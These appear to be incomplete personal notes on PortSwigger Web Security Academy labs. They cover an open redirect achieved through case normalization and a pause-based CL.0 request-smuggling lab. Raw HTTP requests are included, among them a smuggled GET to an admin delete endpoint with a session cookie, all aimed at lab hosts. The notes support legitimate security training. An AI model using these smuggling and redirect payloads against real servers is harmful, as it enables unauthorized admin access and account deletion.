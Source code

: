2. TBC

3. TBC

4. using normaliztion of cap to lower, through 301 permanent redirect,  to do an open redirect :)
request:
```
GET //https://exploit-0a98005003e69928c1da39a301700077.exploit-server.net/EXPLOIT HTTP/1.1
```
response:
```
HTTP/1.1 301 Moved Permanently
Location: //https://exploit-0a98005003e69928c1da39a301700077.exploit-server.net/exploit
```

# TBC



<span style="color:yellow;font-weight:700;font-size:30px">
Pause-based desync:  1 Lab
</span>

https://portswigger.net/web-security/request-smuggling/browser/pause-based-desync

 This lab is vulnerable to pause-based server-side request smuggling. The front-end server streams requests to the back-end, and the back-end server does not close the connection after a timeout on some endpoints.

To solve the lab, identify a pause-based CL.0 desync vector, smuggle a request to the back-end to the admin panel at /admin, then delete the user carlos. 

Some server-side pause-based desync vulnerabilities can't be exploited using Burp's core tools. You must use the Turbo Intruder extension to solve this lab. 

**material**
```
POST /example HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

from previous labs:
```
POST /resources/images/blog.svg HTTP/1.1
Host: 0a5600b20333dff4c00669e0008900cf.web-security-academy.net
Cookie: session=g7dk6M42BAlaCge5bRfY2UUbrkTgVcpx
Connection: keep-alive
Content-Length: 63

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
```
1. check for dsync:
